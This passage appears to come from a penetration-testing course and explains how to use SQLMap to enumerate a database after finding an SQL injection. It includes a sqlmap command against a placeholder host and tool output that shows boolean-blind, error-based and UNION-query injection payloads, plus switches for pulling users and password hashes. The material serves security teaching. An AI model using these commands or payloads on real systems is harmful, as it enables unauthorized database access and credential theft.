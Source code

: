 Another example is retrieving all the usernames (i.e., tagÂ `<users>`). There are two queries used, depending on the situation. The query marked asÂ `inband`Â is used in all non-blind situations (i.e., UNION-query and error-based SQLi), where the query results can be expected inside the response itself. The query marked asÂ `blind`, on the other hand, is used for all blind situations, where data has to be retrieved row-by-row, column-by-column, and bit-by-bit.

---

## Basic DB Data Enumeration

Usually, after a successful detection of an SQLi vulnerability, we can begin the enumeration of basic details from the database, such as the hostname of the vulnerable target (`--hostname`), current user's name (`--current-user`), current database name (`--current-db`), or password hashes (`--passwords`). SQLMap will skip SQLi detection if it has been identified earlier and directly start the DBMS enumeration process.

Enumeration usually starts with the retrieval of the basic information:

- Database version banner (switchÂ `--banner`)
- Current user name (switchÂ `--current-user`)
- Current database name (switchÂ `--current-db`)
- Checking if the current user has DBA (administrator) rights (switchÂ `--is-dba`)

The following SQLMap command does all of the above:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql' 
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
```